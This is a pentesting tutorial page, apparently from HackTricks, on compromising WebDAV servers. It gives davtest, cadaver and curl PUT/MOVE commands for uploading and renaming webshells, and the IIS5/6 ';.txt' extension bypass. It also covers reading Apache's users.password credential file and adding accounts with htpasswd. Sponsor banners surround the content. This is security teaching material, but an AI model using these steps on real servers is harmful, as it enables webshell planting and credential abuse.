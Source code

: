 # WebDav

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

\
Use [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_content=put-method-webdav) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

When dealing with a **HTTP Server with WebDav** enabled, it's possible to **manipulate files** if you have the right **credentials**, usually verified through **HTTP Basic Authentication**. Gaining control over such a server often involves the **upload and execution of a webshell**.

Access to the WebDav server typically requires **valid credentials**, with [**WebDav bruteforce**](../../generic-methodologies-and-resources/brute-force.md#http-basic-auth) being a common method to acquire them.

To overcome restrictions on file uploads, especially those preventing the execution of server-side scripts, you might:

* **Upload** files with **executable extensions** directly if not restricted.
* **Rename** uploaded non-executable files (like .txt) to an executable extension.
* **Copy** uploaded non-executable files, changing their extension to one that is executable.

## DavTest

**Davtest** try to **upload several files with different extensions** and **check** if the extension is **executed**:

```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```

Output sample:

![](<../../.gitbook/assets/image (848).png>)

This doesn't mean that **.txt** and **.html extensions are being executed**. This mean that you can **access this files** through the web.

## Cadaver

You can use this tool to **connect to the WebDav** server and perform actions (like **upload**, **move** or **delete**) **manually**.

```
cadaver <IP>
```

## PUT request

```
curl -T 'shell.txt' 'http://$ip'
```

## MOVE request

```
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

\
Use [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_content=put-method-webdav) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}

## IIS5/6 WebDav Vulnerability

This vulnerability is very interesting. The **WebDav** does **not allow** to **upload** or **rename** files with the extension **.asp**. But you can **bypass** this **adding** at the end of the name **";.txt"** and the file will be **executed** as if it were a .asp file (you could also **use ".html" instead of ".txt"** but **DON'T forget the ";"**).

Then you can **upload** your shell as a ".**txt" file** and **copy/move it to a ".asp;.txt"** file. An accessing that file through the web server, it will be **executed** (cadaver will said that the move action didn't work, but it did).

![](<../../.gitbook/assets/image (1089).png>)

## Post credentials

If the Webdav was using an Apache server you should look at configured sites in Apache. Commonly:\
_**/etc/apache2/sites-enabled/000-default**_

Inside it you could find something like:

```
ServerAdmin webmaster@localhost
        Alias /webdav /var/www/webdav
        <Directory /var/www/webdav>
                DAV On
                AuthType Digest
                AuthName "webdav"
                AuthUserFile /etc/apache2/users.password
                Require valid-user
```

As you can see there is the files with the valid **credentials** for the **webdav** server:

```
/etc/apache2/users.password
```

Inside this type of files you will find the **username** and a **hash** of the password. These are the credentials the webdav server is using to authenticate users.

You can try to **crack** them, or to **add more** if for some reason you wan to **access** the **webdav** server:

```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```

To check if the new credentials are working you can do:

```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```

## References

* [https://vk9-sec.com/exploiting-webdav/](https://vk9-sec.com/exploiting-webdav/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

\
Use [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_content=put-method-webdav) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}
